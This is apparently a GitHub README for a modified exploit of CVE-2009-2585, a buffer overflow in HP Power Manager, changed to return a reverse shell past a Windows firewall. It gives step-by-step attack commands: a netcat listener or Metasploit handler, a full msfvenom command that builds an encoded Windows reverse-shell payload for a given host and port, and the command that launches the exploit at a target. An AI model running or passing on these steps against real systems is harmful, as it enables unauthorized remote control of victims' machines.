 # CVE2009-2585_HP_Power_Manager_BoF
It is a version modified of the original exploit by Muhammad Haidari (https://raw.githubusercontent.com/Muhammd/HP-Power-Manager/master/hpm_exploit.py). The modification includes a payload which allows to obtain a reverse shell to avoid to open ports in the Windows'target which the firewall's windows will be closed it.

# Usage

At firts, put a listener:
<pre> sudo nc -lvp 443 </pre>

Or using the metasploit module: 
<pre> /exploit/multi/handler with payload: windows/shell_reverse_tcp </pre>

Create the payload:
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python</pre>

Add the payload to the exploit!

Now, you can launch the exploit:
<pre>python CVE2009-2585_HP_Power_Manager_BoF.py 10.10.10.10 </pre>

